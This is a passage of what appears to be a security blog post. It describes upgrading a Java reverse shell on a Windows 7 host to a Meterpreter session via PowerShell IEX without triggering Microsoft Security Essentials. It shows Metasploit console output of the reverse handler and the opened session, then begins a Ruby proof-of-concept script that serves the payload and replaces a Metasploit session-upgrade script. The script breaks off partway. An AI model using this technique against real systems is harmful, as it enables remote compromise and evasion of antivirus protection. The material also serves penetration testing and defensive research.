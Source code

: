 We see above that we currently have a generic shell (it's the java/jsp_shell_reverse_tcp payload) on a Windows 7 system (which happens to be running MSE).  Using this new script, we can upgrade this session to Meterpreter:

```
msf exploit(handler) > sessions -u 1

[*] Started HTTPS reverse handler on https://0.0.0.0:53568/
[*] Starting the payload handler...
[*] 192.168.1.102:60922 Request received for /INITM...
[*] 192.168.1.102:60922 Staging connection for target /INITM received...
[*] Patched user-agent at offset 663128...
[*] Patched transport at offset 662792...
[*] Patched URL at offset 662856...
[*] Patched Expiration Timeout at offset 663728...
[*] Patched Communication Timeout at offset 663732...
[*] Meterpreter session 2 opened (192.168.1.6:53568 -> 192.168.1.102:60922) at 2014-03-11 23:09:36 -0600
msf exploit(handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : BRYAN-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64 (Current Process is WOW64)
System Language : en_US
Meterpreter     : x86/win32
meterpreter > 
```

And just like that, without a peep from MSE, we've got a Meterpreter shell.  

You can find the code for this implementation below, though be warned; this is PoC quality code, and probably even worse as I'm not really a Ruby developer.  Meatballs over at Metasploit has a few awesome Powershell pull requests waiting for a merge.  Once this is done, I can implement that here and submit a proper implementation.  If you'd like to try this out, simply create a backup copy of `scripts/shell/spawn_meterpreter.rb` and copy in the following, then `reload`.  You should be upgradin' and bypassin' in no time.

```
#
# Session upgrade using Powershell IEX
# 
# Some code stolen from jduck's original implementation
#
# -drone
#

class HTTPServer
    #
    # Using Ruby HTTPServer here since this isn't a module, and I can't figure
    # out how to use MSF libs in here
    #
    @sent = false
    def state
        return @sent
    end

    def initialize(port, body)
        require 'socket'

        @sent = false
        @server = Thread.new do
            server = TCPServer.open port
            loop do
                client = server.accept
```